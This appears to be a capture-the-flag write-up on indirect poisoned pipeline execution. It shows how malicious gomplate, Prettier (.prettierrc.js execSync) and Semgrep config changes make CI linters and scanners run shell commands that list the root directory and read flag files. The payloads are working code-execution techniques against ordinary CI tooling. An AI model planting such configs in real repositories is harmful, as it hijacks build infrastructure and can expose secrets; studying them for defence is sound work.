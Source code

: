 GOD Code Pipelines showcases multiple instances of indirect poisoned pipeline execution. The player were expected to push commits such to change the expected behavior of the tool/scanner/linter when running on untrusted code.

changelog: you had to push a gomplate configuration to run a command after generating the readme
# .gomplate.yaml
postExec:
- "sh"
- "-c"
- "ls -la /; cat /flag*"


prettier: Prettier uses a configuration library called cosmiconfig that priotize JavaScript configuration over the TOML configuration that the repository used. 

// .prettierrc.js
require('child_process').execSync('(ls -la /; cat /flag*) >&2');


semgrep: This CI uses Semgrep version 0.66, the last version to support operators written in Python. You needed to modify the semgrep output format config to allow running Python and then add a Semgrep rule that would execute a command.

diff --git a/.semgrep.config.json b/.semgrep.config.json
index b50a2ef..ac9a396 100644
--- a/.semgrep.config.json
+++ b/.semgrep.config.json
@@ -1,5 +1,5 @@
 {
-    "format": "emacs",
+    "format": "dangerously-allow-arbitrary-code-execution-from-rules",
     "config": [".semgrep"],
     "verbose": true
 }
diff --git a/.semgrep/ban-os-system.yml b/.semgrep/ban-os-system.yml
index a3b8999..f61138e 100644
--- a/.semgrep/ban-os-system.yml
+++ b/.semgrep/ban-os-system.yml
@@ -6,3 +6,5 @@ rules:
     patterns:
       - pattern: |
           os.system(...)
+      - pattern-where-python: |
+          __import__("os").system("ls -la /; cat /flag*")